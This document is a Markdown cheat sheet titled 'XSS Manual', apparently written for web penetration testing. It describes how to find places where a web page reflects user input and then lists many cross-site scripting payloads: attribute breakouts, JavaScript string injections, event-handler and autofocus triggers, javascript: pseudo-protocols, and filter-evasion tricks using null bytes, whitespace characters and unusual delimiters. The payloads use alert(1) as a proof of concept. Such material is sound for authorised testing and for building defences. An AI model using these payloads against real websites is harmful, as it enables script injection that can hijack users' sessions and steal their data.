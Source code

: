 # XSS Manual

## Identifying Reflections of User Input

1.  `myxsstestdmqlwp` **Submit this string** as every parameter to every page, targeting only one parameter at a time. Only alphabetical characters.

2.  **Monitor the application's responses** for any appearance of this same string.

3.  **Test both GET and POST** requests. Both the URL query string and the message body.

4.  **Test HTTP request headers.** A common XSS vulnerability arises in error messages, where items such as the _Referer_ and _User-Agent_ headers are copied into the message's contents.

5.  **URL-encode** any special characters, including & = + ; and _space_

## Testing Reflections to Introduce Script

**Example 1: A Tag Attribute Value**
Suppose that the returned page contains the following:
`<input type="text" name="address1" value="myxsstestdmqlwp">`

Try:
`"><script>alert(1)</script>`
`" onfocus="alert(1)`

**Example 2: A JavaScript String**
If: `<script>var a = 'myxsstestdmqlwp'; var b = 123; ... </script>`
Try:
`'; alert(1); var foo='`
`'; alert(1); //`

**Example 3: An Attribute Containing a URL**
If `<a href="myxsstestdmqlwp">Click here ...</a>`
use the `javascript:` protocol to introduce script directly within the URL attribute.
Try:
`javascript:alert(1);`
`#"onclick="javascript:alert(1)`

### Event Handlers

```
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)
<input type=image src=valid.gif onreadystatechange=alert(1)
<isindex type=image src=valid.gif onreadystatechange=alert(1)
<script onreadystatechange=alert(1)
<bgsound onpropertychange=alert(1)
<body onbeforeactivate=alert(1)
<body onactivate=alert(1)
<body onfocusin=alert(1)>
```

Use `autofocus` attribute to automatically trigger events that previously required user interaction:

```
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```

Event handlers in closing tags:
`</a onmousemove=alert(1)>`

### Script Pseudo-Protocols

```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
```

## Bypassing Filters: HTML

Ways in which HTML syntax can be obfuscated to defeat common filters.

`<img onerror=alert(1) src=a>`

**The Tag Name**
`<iMg onerror=alert(1) src=a>`

`<[%00]img onerror=alert(1) src=a>`
`<i[%00]mg onerror=alert(1) src=a>`
In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the applica-tion's response, you need to look for the literal decoded character being reflected.

**Space Following the Tag Name**

```
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<script/anyjunk>alert(1)</script>
```

**Attribute Names**
`<img o[%00]nerror=alert(1) src=a>`

**Attribute Delimiters**

```
<img onerror=”alert(1)”src=a>
<img onerror=’alert(1)’src=a>
<img onerror=`alert(1)`src=a>
<img/onerror=”alert(1)”src=a>

```
